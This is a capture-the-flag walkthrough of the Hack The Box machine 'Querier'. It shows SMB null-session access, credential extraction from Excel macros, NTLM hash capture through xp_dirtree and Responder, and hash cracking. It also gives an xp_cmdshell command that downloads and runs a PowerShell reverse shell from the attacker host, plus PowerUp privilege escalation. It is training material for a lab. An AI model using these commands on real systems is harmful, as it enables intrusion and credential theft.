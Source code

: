 # Querier [htb](https://app.hackthebox.com/machines/Querier)
![querier-01]()


## Recon 

Lets start by adding the target to our `/etc/hosts` file:

![hosts-02]()

With that out of the way, we can enumerating:

`nmap -sC -sV -p- -A querier.htb -oN nmap.result`

![nmap-res-03]()

We have the following:

+ RPC endpoint mapper on port 135.
+ netBIOS on port 139.
+ SMB on port 445.
+ Microsoft SQL server on port 1433.
+ HTTP-API on ports 5985 & 47001.
+ Other RPC related ports. 


The services that jump out the most to me are the SQL and SMB servers. Lets start bt taking a look at the SMB though, maybe its misconfigured and we can access information we shouldnt. After that we'll take a look at the SQL server. 


## SMB port 445

Lets try to list out the SMB shares with a null session:

`smbclient -N -L \\\\querier.htb\\`

![shares-04]()

A null session is accepted, ideally this should not happen. Lets try to connect to the `Reports` share:

![smb-connect-05]()

We can see the share hosts a single `.xlsm` file, this is a microsoft Excel file. 
I use the following code to open the file on Linux:

```python
#!/usr/bin/python3

import sys
import pandas as pd

if len(sys.argv) != 2:
    print(f'Usage {sys.argv[0]} <input_xlsm_file>')
    sys.exit()

df = pd.read_excel(sys.argv[1], sheet_name=None)

for k,v in df.items():
    print(f'{k} = {v}')
```

However the file is empty: 

![empty-06]()

If we open the file through a Windows machine and click on `File`:

![button-07]()


We can see the following:

![luis-08]()

At first i thought `Luis` is a username, and tried brute-forcing my way into the SQL server. This failed. 
So i decided to inspect the file by clicking the highlighted button which resulted in:

![inspect-09]()

It says that the file has Maros configured. A macro is an action or a set of actions that can be recorded, named, saved and executed as many times as required and whenever desired. In other words its code. 

We can extract the macro code in clear text with a tool called [olevba](https://github.com/decalage2/oletools/wiki/olevba). You can download it with:

`sudo -H pip install -U oletools`

Once we have it installed we can extract the Macro code with:

`olevba 'Currency Volume Report.xlsm'`

![olevba-10]()


This is an [SQL connection string](https://learn.microsoft.com/en-us/dotnet/api/system.data.sqlclient.sqlconnection.connectionstring?view=dotnet-plat-ext-7.0), the `Uid` is a username, and the `Pwd` is the password. 

Lets try to login to the SQL server with:

`impacket-mssqlclient reporting@querier.htb -windows-auth`

![sql-login-11]()

Were in! I tried enumerataing the database, as well as trying to pull off RCE, nothing worked for me. [source](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server).

Our user has very little permissions on the server, and there isn't much to see on the database. 
I also tried using the credentials we found with `impacket` tools like `psexec`, `wmiexec`, etc. Nothing worked for me. 

So i decided to try a MITM attack to capture the `mssql-svc` service account NTLM hash. 
To do this we need to run `responder` on our kali machine:

`responder -I tun0 -dwv`

Then, in the SQL prompt, we need to tell the server to fetch a file from our kali via SMB. There is no file or SMB server on 
our kali, but in the process, the SQL server service itself well send over its NTLM
hash which we will capture with `responder`. (These sorts of attacks are more common in AD environments).

Once `responder` is running, on the SQL server execute the following:

`xp_dirtree '\\<attacker_IP>\any\thing'`


Now check responder: 

![responder-12]()

Lets crack it. 


First save it to a file:

![hash-13]()


Now we can use `hashcat` to crack NTLMv2 hashes as such:

`hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -o mssql-svc.pass`


The hash gets cracked rather quickly:

![cracked-14]()

Lets log back in to the SQL server with the new account, now we should be able to pull of an RCE. 

The first we need is a reverse shell script, i will [nishang's](https://github.com/samratashok/nishang) `Invoke-PowerShellTcp.ps1`.

Copy this script over to your working directory, open it, and add the following at the end:

`Invoke-PowerShellTcp -Reverse -IPAddress <kali-ip> -Port 9001`


Next, over at the SQL server we need to enable advanced options:

`sp_configure 'show advanced options', '1'`
`RECONFIGURE`


Now we can enable command execution with:

`sp_configure 'xp_cmdshell', '1'`
`RECONFIGURE`

On your kali start a python server:

`python3 -m http.server 80`

Start the listner: 

`nc -lnvp 9001`


Now we are ready to execute, on the SQL server run:

`EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://<kali-ip>/shell.ps1") | powershell -noprofile'`


Get a shell:

![shell-15]()


## Privilege Escalation


Lets cd into a directory we can work with:

`cd C:\Users\mssql-svc\appdata\local\temp`

From here, we can download and run [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). 
Once you have the script on you kali start a python server:

`python3 -m http.server 80`

From the target, download the script with:

`iwr http://kali-ip/PowerUp.ps1 -OutFile powerup.ps1`

Start a Powershell session and load the script with:

```cmd
powershell -ep bypass
. .\powerup.ps1
Invoke-AllChecks
```

![admin-pass-16]()

There are a lot of leads we can take from the PowerUp output, but i think this is the easiest. 

All we need to do is use `psexec`:

`impacket-psexec QUERIER/Administrator:'MyUnclesAreMarioAndLuigi!!1!'@querier.htb`

![root-17]()
